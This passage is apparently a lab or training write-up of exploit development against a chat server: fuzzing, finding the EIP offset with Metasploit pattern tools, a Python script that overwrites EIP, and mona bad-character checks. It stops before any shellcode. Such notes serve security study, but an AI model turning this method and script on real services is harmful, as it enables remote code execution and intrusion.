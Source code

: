 Fuzzing crashed at 6300 bytes.

### Find EIP

pattern create: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 6700`

EIP value on crash = `48367648`

pattern offset: `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 6700 -q 48367648`

Exact match at offset 6108

eip.py looks like this:

```python
#!/usr/bin/env python3

import socket

ip = "172.16.2.125"
port = 9999

offset = 6108
overflow = "A" * offset
retn = "BBBB"

buffer = overflow + retn
print("buffer=",len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Crash Overwrite EIP: 42424242...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

running `./eip.py` we get the correct output of EIP overwritten with our 4 x B's (42424242).

### Bad Chars

Set mona work dir: `!mona config -set workingfolder C:\Users\IEUser\Downloads\%p`

let's use mona to create our byte array and test for bad chars.

`!mona compare -f C:\Users\IEUser\Downloads\chatserver\bytearray.bin -a 0187EEC0`

I did `-b \x00\x01` and got unmodified status, but `\x01` was a legit byte, just corrupted by nullbyte.

ran again with just nullbyte arraay, compared:

`!mona compare -f C:\Users\IEUser\Downloads\chatserver\bytearray.bin -a 0171EEC0`

